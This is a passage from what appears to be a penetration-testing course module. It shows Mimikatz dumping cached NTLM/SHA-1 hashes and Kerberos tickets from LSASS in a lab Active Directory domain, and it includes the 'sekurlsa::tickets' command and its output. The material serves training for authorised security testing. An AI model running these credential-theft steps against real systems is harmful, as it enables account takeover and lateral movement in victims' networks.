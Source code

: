 The output above shows all credential information stored in LSASS for the domain users _jeff_ and _dave_, including cached hashes. We can observe two types of hashes highlighted in the output. This will vary based on the functional level of the AD implementation. For AD instances at a functional level of Windows 2003, NTLM is the only available hashing algorithm. For instances running Windows Server 2008 or later, both NTLM and SHA-1 (a common companion for AES encryption) may be available. On older operating systems like Windows 7, or operating systems that have it manually set, WDigest[11](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/understanding-active-directory-authentication/cached-ad-credentials#fn11) will be enabled. When WDigest is enabled, running Mimikatz will reveal cleartext passwords alongside the password hashes.

A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS, and we can use Mimikatz to interact with and retrieve our own tickets as well as the tickets of other local users. Let's open a second PowerShell window and list the contents of the SMB share on WEB04 with UNC path **\\web04.corp.com\backup**. This will create and cache a service ticket.

```shell
PS C:\Users\jeff> dir \\web04.corp.com\backup


    Directory: \\web04.corp.com\backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
```

Once we've executed the directory listing on the SMB share, we can use Mimikatz to show the tickets that are stored in memory by entering **sekurlsa::tickets**.

```shell
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           [...SNIP...]
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
```